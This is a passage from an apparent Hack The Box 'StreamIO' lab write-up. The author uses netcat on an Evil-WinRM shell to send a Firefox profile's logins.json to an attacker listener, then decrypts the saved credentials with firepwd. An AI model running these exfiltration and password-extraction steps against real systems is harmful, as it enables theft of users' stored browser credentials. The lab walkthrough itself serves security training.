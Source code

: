 Switch to Kali, ctrl+c netcat that's received key4.db and start it again to receive the logins.json file:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# nc -nlvp 4444 > logins.json
listening on [any] 4444 ...
```

Now back to the box to send the logins file over:

```powershell
*Evil-WinRM* PS C:\Users\nikk37\appdata\roaming\mozilla\firefox\profiles\br53rxeg.default-release> cmd /C "nc -nv 10.10.14.198 4444 < logins.json"
cmd.exe : (UNKNOWN) [10.10.14.198] 4444 (?) open
```

Finally back to Kali, ctrl+c netcat to save the file. Now let's grab [firewpwd](https://github.com/lclevy/firepwd) and run it against our files:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# wget https://github.com/lclevy/firepwd.git
--2022-06-30 22:25:04--  https://github.com/lclevy/firepwd.git
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://github.com/lclevy/firepwd [following]
--2022-06-30 22:25:04--  https://github.com/lclevy/firepwd
Reusing existing connection to github.com:443.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘firepwd.git’
firepwd.git   100%[======================>] 179.64K  --.-KB/s    in 0.1s  
2022-06-30 22:25:05 (1.76 MB/s) - ‘firepwd.git’ saved [183956]

┌──(root㉿kali)-[~/htb/streamio]
└─# mv key4.db firepwd

┌──(root㉿kali)-[~/htb/streamio]
└─# mv logins.json firepwd

┌──(root㉿kali)-[~/htb/streamio]
└─# cd firepwd 

┌──(root㉿kali)-[~/htb/streamio/firepwd]
└─# pip install -r requirements.txt
Collecting PyCryptodome>=3.9.0
  Downloading pycryptodome-3.15.0-cp35-abi3-manylinux2010_x86_64.whl (2.3 MB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 2.3/2.3 MB 12.9 MB/s eta 0:00:00
Requirement already satisfied: pyasn1>=0.4.8 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 2)) (0.4.8)
Installing collected packages: PyCryptodome
Successfully installed PyCryptodome-3.15.0

┌──(root㉿kali)-[~/htb/streamio/firepwd]
└─# python3 firepwd.py
globalSalt: b'd215c391179edb56af928a06c627906bcbd4bd47'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'5d573772912b3c198b1e3ee43ccb0f03b0b23e46d51c34a2a055e00ebcd240f5'
<SNIP>
```